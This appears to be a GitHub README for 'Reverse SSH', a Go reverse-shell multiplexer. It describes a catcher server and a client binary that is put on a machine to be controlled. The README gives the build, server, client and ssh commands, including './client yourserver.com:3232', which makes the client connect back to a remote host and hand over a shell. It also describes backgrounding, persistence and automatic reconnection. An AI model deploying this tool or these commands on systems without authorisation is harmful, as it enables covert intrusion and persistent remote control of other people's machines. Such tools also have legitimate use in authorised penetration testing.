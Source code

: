 # Reverse SSH
By far one of the stupidest things I've been thinking of for a while. Have an ssh client connect to a server, and then provide the server the ability to control the client


Essentially works like any reverse shell muliplexer thing. Only fun thing here is that everything uses SSH.   

You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```
## How to use

Depending on the platform, you're building the server and client for. You may need to change the GOOS and GOARCH enviroment variables. E.g building for linux:
```
GOOS=linux GOARCH=amd64 make
```

The server will automatically generate a private key on first use. Or you can specify one with `--key`. And you will need to create an `authorized_keys` file, containing *Your* public key. 
This will allow the server to authenticate you, to allow you to control whatever reverse shell connections it catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

This will cause the client to fork into the background. If you want to montior the output for debugging purposes specify `--foreground`.  
The client will attempt to detect shells such as bash, ash, sh and execute one of those if possible. If it cant find one. Then you will be asked to enter in a path.

Then connect to your server:

```
ssh yourserver.com:3232
```

You will be presented by a list of controllable clients, e.g:
```
Connected controllable clients:                                                                                            e43bdff83d71a8a70e2c89fc27334e18722acaa1b600feb01c836351967bc258@127.0.0.1:55526, client version: SSH-2.0-Go
>
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect 4<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 


## Limitations

This doesnt work entirely correctly for windows programs, due to limitations of the windows platform. But you can still run commands. 
ALthough they might not end properly, or be ctrl+c-able

## Todo

- ~~Make the selection UI a bit better~~
- ~~Handle IO errors better in all parties~~
- ~~Remove remote connection host from list when a disconnection is registered~~
- ~~Make the client cleanly fork itself from whatever parent it started from, giving it persistence (might be hard in go)~~
- ~~direct-tcp port forwarding to select hosts~~
- ~~Client reconnect on loss of connection~~
- ~~Add authentication bits and bobs~~
- ~~Ensure threadsafety of key structures~~
- ~~Fix the passing of enviroment variables such as TERM~~
